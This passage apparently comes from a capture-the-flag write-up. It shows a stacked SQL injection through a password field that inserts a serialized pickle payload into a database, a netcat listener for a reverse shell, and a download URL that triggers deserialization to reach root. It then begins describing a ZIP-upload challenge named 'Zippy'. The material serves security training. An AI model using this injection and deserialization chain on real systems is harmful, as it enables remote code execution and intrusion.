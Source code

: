 To add this file on the database, we can just use the previous entry point in the password like in the previous payload inserting into `files`. 

```sql
password\;INSERT/**/INTO/**/files(filename,data)/**/VALUES/**/(\pickle.rce\,\gASV....SFlFKULg==\);--
```

Setup a listener `nc -nvlp <port>`

To trigger this pickle RCE we just have to navigate to `/download/pickle.rce/1337`. this depends on the inserted values on the database. Check the listener and well get the shell and find the flag under root. 

![alt text](images/movable-flag.png)


## Zippy (392 pts)
The web applications main functionality is the upload and extraction of ZIP files contents.

![alt text](images/zippy-web.png)
We can upload zip files in the `/Upload` and browse directories and filenames under `/Browse`.  